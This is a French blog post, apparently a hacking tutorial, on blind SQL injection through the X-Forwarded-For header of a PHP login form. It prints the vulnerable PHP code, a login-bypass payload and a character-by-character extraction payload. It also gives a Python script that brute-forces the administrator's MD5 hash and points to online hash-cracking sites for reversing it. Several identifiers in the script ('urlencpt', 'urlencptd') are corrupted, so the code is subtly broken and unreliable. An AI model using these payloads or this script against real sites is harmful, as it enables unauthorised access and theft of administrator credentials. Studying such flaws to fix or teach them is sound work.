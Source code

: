 ```yaml
---
layout: post
title: Blind SQL injection via un header HTTP
description: Cet article présente une façon originale d'exploiter une faille de type injection SQL.
categories: articles
tags: [hacking]
photo: sqli_http_header.png
comments: true
---
```


Cet article présente une façon originale d'exploiter une faille de type injection SQL. La faille se trouve dans un formulaire d'identification et plus précisément dans le code PHP qui ne contrôle pas tous les paramètres de la requête SQL.

Le code PHP est le suivant :

{% highlight php %}
<?php
$req = mysql_query("SELECT login,pwd FROM administrators
                    WHERE login='".sanitize($_POST['login'])."'
                    AND pwd='".md5($_POST['password'])."'
                    AND ip='".ip()."'");
?>
{% endhighlight %}

La variable login est correctement contrôlée grâce à la fonction _sanitize()_ :

{% highlight php %}
<?php
function sanitize($param){
    if (is_numeric($param)){
    	return $param;
	}
	else{
		return mysql_real_escape_string($param);
	}
}
?>
{% endhighlight %}

Et le mot de pass est directement converti en MD5, rien à faire de ce coté là. Intéressons nous au paramète "IP" et plus particulièrement à la fonction ip()_.

{% highlight php %}
<?php
function ip(){
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
	else{
		$ip = $_SERVER["REMOTE_ADDR"];
    }

	if (preg_match("#^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}#",$ip)){
		return $ip;
	}
	else{
		return $_SERVER["REMOTE_ADDR"];
	}
}
{% endhighlight %}

On remarque que la récupération de l'adresse ip repose sur un header HTTP _X_FORWARDED_FOR_ et que le seul contrôle effectué est un _preg_match_ qui permet de vérifier que le paramètre contient bien au moins une adresse ip. Il est alors possible d'injecter du code SQL dans le header HTTP afin de bypasser l'identification voir même d'extraire les informations de la BDD.

En modifiant le header par :

    127.0.0.1' or 1=1#

La requête est forcément vraie et on se retrouve identifié \o/

De la même manière on va pouvoir récupérer le password de l'administrateur, en effet lorsque la requete est fausse la page affiche "Mot de passe incorrect", en effectuant une [blind SQL injection](http://www.ghostsinthestack.org/article-11-blind-sql-injections.html) il est possible de retrouver le mot de passe caractère par caractère, exemple :

    127.0.0.1' or ascii(substring(pwd,1,1))=48#

Si la requête est vraie et donc que l'on se retrouve identifié alors cela veut dire que le premier caractère du mot de passe est "0" (48 en ascii)

J'ai écrit un petit script en python (mon premier) qui permet d'automatiser tout cela :

{% highlight python %}
import httplib
import urllib
import re

password = ""

md5 = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cpt = 0
i = 1

while i<=32:

	print 'Recherche du caractère '+str(i)
	if cpt == 16:
		cpt = 0

	print 'Test caractere : '+md5[cpt]
	params = urllib.urlencpt({'login': 'admin', 'pwd': 'password'})
	headers = {"Content-type": "application/x-www-form-urlencptd",
               "Accept": "text/plain",
               "x-forwarded-for":"127.0.0.1' or ascii(substring(pwd,"+str(i)+",1))="+str(ord(md5[cpt]))+"#"}
	conn = httplib.HTTPConnection("www.site.com:80")
	conn.request("POST", "/index.php", params, headers)
	response = conn.getresponse()
	print response.status, response.reason
	data = response.read()
	conn.close()

	if not(re.search('incorrect',data)):
		print 'Caractère trouvé : '+md5[cpt]
		password += md5[cpt]
		i += 1
		cpt = 0
	else:
		cpt += 1

print 'MD5 = '+str(password)
{% endhighlight %}

Et voila on trouve le hash et un passage par [cmd5.org](http://www.cmd5.org/) ou par [md5decrypter.co.uk](http://www.md5decrypter.co.uk/) nous donne la correspondance. Si vous avez des questions, commentaires n'hésitez pas.